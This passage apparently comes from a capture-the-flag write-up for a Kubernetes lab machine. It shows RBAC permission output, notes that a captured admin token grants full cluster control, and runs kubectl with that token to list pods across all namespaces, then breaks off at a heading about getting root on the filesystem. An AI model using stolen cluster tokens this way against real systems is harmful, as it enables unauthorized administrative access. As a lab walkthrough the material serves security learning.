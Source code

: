 ```
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]

```

The first line says that this user can do all commands on all resources - full admin.

For example (and use in a minute), I can list pods across all namespaces:

```

oxdf@parrot$ kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
NAMESPACE     NAME                                  READY   STATUS             RESTARTS   AGE
default       webapp-deployment-5d764566f4-h5zhw    1/1     Running            7          52d
default       webapp-deployment-5d764566f4-lrpt9    1/1     Running            7          52d
default       webapp-deployment-5d764566f4-mbprj    1/1     Running            7          52d
dev           devnode-deployment-cd86fb5c-6ms8d     1/1     Running            28         81d
dev           devnode-deployment-cd86fb5c-mvrfz     1/1     Running            29         81d
dev           devnode-deployment-cd86fb5c-qlxww     1/1     Running            29         81d
kube-system   backup-pod                            0/1     CrashLoopBackOff   347        80d
kube-system   coredns-74ff55c5b-sclll               1/1     Running            31         81d
kube-system   etcd-unobtainium                      1/1     Running            0          23h
kube-system   kube-apiserver-unobtainium            1/1     Running            0          23h
kube-system   kube-controller-manager-unobtainium   1/1     Running            34         81d
kube-system   kube-proxy-zqp45                      1/1     Running            31         81d
kube-system   kube-scheduler-unobtainium            1/1     Running            31         81d
kube-system   storage-provisioner                   1/1     Running            63         81d

```

### Filesystem as root

#### Find Image
